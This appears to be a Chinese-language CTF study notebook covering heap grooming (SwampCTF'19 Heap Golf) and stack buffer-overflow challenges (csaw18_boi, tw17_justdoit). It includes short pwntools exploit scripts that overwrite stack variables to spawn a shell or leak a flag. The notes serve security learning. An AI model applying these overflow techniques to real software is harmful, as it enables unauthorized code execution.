





# Heap Grooming

## SwampCTF'19: Heap Golf

```c
[*] '/home/wanger/桌面/nightmare-master/modules/26-heap_grooming/swamp19_heapgolf/heap_golf1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

什么意思呢？

就是，没有开启pie，堆区地址不变。

我们有两种选择：

1，输入-2，然后所有的chunk都被free了，然后紧接着，又分配一个chunk。大小为0x20。

2，输入一个数字，按照这个数字分配chunk。每分配一个chunk，它的值都会加1。

ida:

```ida
  target = malloc(0x20uLL);
  write(0, "target green provisioned.\n", 0x1AuLL);
  ptr[0] = target;
```

target的指针固定了，就是第一个chunk，不会变了。

至于 ptr数组以后指向谁，都跟target无关。所以我们要做的就是，通过free，malloc来使第一个chunk的值为4。

分配了五个chunk：



是吧，后面的chunk每个值都是+1。

所以我们就是让第一个chunk值为4.

怎么做：无非接着free所有的chunk，然后再分配。由于是在fastbin里面，后进先出，所以再分配的五个chunk就会跟原来相比倒过来，就好了：



再分配：



# 04-bof_variable

记录一下：

## csaw18_boi

有这样一段代码：

```c
  read(0, buf, 24uLL);
  if ( HIDWORD(v5) == 0xCAF3BAEE )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
```

HIDWORD是说，取高字节部分。

> \#define LOWORD(l)           ((WORD)((DWORD_PTR)(l) & 0xffff))
> \#define HIWORD(l)           ((WORD)((DWORD_PTR)(l) >> 16))
> 这是windef.h头文件中对宏LOWORD和HIWORD的定义。
> 作用分别是取出无符号长整型参数的高16位和低16位。
> 因为一个长整型占32位，其中高低16位的值可能有不同的意义，需要通过这2个宏分别取出来使用。取出来的结果是一个无符号短整型的值。
> 其原理正如定义那样，取低16位的宏LOWORD使用按位与操作符与数字0xffff运算，而数字0xffff是一个低16位全为1的数字，那么对其位与操作可以得到参数的低16位。
> 而取高16位的宏HIWORD则更简单，只需将参数右移16位，剩下的就是原高16位的值了。
>
> 取自百度

右移分为逻辑右移和算数右移。全零操作是逻辑右移。

exp:

```python
from pwn import *
p=process('./boi')
p.recvuntil("Are you a big boiiiii??\n")
payload=b'a'*0x10+p32(0x0)+p32(0xCAF3BAEE)
p.send(payload)
p.interactive()
```

## tw17_justdoit

**NUL** 被用于C语言中，表示字符串的结束，当一个字符串中间出现 NUL 时，就意味着这个是一个字符串的结尾了。**NUL** 是ASCII 字符集中 '\0' **字符**的名字，它的字节模式为全 0。

>  NULL是一个宏，它在几个标准头文件中定义，
>
>  0是一个整型常量，
>
>  '\0'是一个字符常量，
>
>  而NUL是一个字符常量的名字。这几个术语都不可互换。
>
>  1、NULL用于表示什么也不指向，也就是空指针((void *)0)
>
>  2、0可以被用于任何地方，它是表示各种类型零值的符号并且编译器会挑出它
>
>  3、'\0'应该只被用于结束字符串
>
>  4、NUL没有被定义于C和C++，它不应该被使用除非你自己定义它，像：#define nul '\0'

```c
  if ( !strcmp(s, PASSWORD) )
    v6 = success_message;
  puts(v6);
```

我们找一找PASSWORD：

```c
.rodata:080487C8 aPSsw0rd        db 'P@SSW0RD',0      
```

所以我们应该输入P@SSW0RD吗？

不对，是P@SSW0RD加上NUL，也就是**\0**。

不然字符串比较，到最后一个，你有\0，我没有\0，那这也算比较失败。当然，C语言字符串我还没有研究通透，暂且为止。

exp:

```python
from pwn import *
p=process('./just_do_it')
context.log_level='debug'
p.recvuntil("Input the password.\n")
flag=0x0804A080
payload=b'a'*(0x20-0xc)+p32(0x0804A080)
p.sendline(payload)
p.interactive()
```

这是sendline：



这是send：



明显能够看到差距，sendline多了一个**\a**。

send的话，在

```c
[*] Switching to interactive mode
```

之后，还要自己按一下回车键才可以回显。

